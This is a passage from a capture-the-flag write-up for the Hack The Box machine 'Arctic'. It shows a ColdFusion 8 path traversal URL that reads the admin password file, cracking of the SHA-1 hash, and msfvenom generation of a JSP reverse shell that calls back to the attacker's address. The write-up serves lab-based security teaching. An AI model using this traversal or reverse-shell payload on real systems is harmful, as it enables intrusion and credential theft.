 We can try this on the box with this:

```text
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gives us:

![arctic-coldfusion](/assets/images/2020-08-02-22-06-03.png)

The password looks hashed, let's use hash-identifier to find out how:

```text
root@kali:~/htb/machines/arctic# hash-identifier
--------------------------------------------------------------------
HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Possible Hashs:
[+]  SHA-1
[+]  MySQL5 - SHA-1(SHA-1($pass))
```

We can try cracking it [here](https://hashkiller.co.uk/Cracker/SHA1), which gives me:

![hashkiller-result](/assets/images/2020-08-02-22-07-04.png)

We can create a java payload using msfvenom:

```text
root@kali:~/htb/machines/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f raw > shell.jsp
Payload size: 1497 bytes
```

Now start an http server in this folder so we can get to the file:

```text
python -m SimpleHTTPServer 80
```
